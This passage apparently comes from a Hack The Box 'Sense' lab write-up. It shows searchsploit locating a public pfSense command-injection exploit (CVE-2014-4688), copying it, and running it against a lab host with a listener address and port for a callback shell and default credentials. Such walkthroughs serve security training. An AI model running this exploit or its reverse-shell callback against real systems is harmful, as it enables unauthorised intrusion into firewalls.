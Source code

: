 ![](/assets/obsidian/b435f5f831baa61b6d2e9493b996183f.png)

```bash
searchsploit pfsense 2.1.3
```

![](/assets/obsidian/a1ceff1751b599911a7f08dbdf7e1ef0.png)

```bash
┌──(bravosec㉿fsociety)-[~/htb/Sense]
└─$ searchsploit -m 43560
  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
    Codes: CVE-2014-4688
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/kali/htb/Sense/43560.py

┌──(bravosec㉿fsociety)-[~/htb/Sense]
└─$ vi 43560.py
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Sense]
└─$ python 43560.py --rhost 10.129.161.53 --lhost 10.10.16.13 --lport 1111 --username rohit --password pfsense
CSRF token obtained
Running exploit...
```
